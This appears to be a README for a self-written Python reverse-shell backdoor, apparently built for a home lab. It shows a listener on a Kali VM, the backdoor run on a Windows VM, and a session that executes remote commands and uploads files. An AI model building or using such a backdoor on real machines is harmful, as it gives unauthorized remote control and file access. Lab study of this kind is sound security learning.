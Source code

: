 # Backdoor

This is a basic version with limited functionality, using the `json` protocol for serialization.
Broad exception handling was added in both listener and backdoor for testing and debugging. Detailed messages on errors appear in the backdoor machine. 

## Usage

Execute commands on backdoored machine, including `cd` and upload and download of files.
Use `exit` to quit.

## Kicking the Tyres

On the Kali VM:
```shell
backdoor$ python3 listener.py
[+] Listening on 192.168.122.108:4444
```

On the Windows VM

```shell
backdoor> ..\venv\Scripts\python.exe .\reverse_backdoor.py
```

Back to the Kali machine:

```shell
[+] Accepted connection from 192.168.122.63:51872
>> dir
 Volume in drive C has no label.
 Volume Serial Number is 2CEC-EEFF

 Directory of C:\Users\Nina\PycharmProjects\ymrir\backdoor

31/01/2022  22:52    <DIR>          .
31/01/2022  22:52    <DIR>          ..
31/01/2022  22:45             2,467 listener.py
31/01/2022  17:00                10 README.md
31/01/2022  22:52             2,610 reverse_backdoor.py
               3 File(s)          5,087 bytes
               2 Dir(s)   2,133,176,320 bytes free

>> upload madeit.jpg
[+] Upload Succesful
>> upload sortir.txt
[+] Upload Succesful
>> upload sortir.pdf
[+] Upload Succesful
>> exit
                                         
```